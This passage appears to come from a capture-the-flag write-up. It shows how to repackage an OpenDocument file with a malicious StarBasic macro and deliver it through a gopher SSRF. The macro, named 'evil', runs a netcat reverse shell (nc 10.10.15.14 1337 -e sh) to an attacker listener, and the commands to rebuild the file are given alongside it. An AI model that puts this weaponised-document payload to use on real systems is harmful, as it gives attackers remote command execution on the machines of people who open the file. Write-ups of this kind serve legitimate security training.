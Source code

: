 ![](screenshots/11-test.xml-contents.png)

```sh
unzip exploit.odt && rm exploit.odt
# change test.xml contents
zip -r exploiit.odt .
```

test.xml contents:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="test" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

Sub evil

    Shell(&quot;nc 10.10.15.14 1337 -e sh&quot;)
    
End Sub
</script:module>
```

Then, change the gopher SSRF to request **"exploit.odt"** and have a netcat listener waiting on port 1337.

![](screenshots/12-odt-served.png)

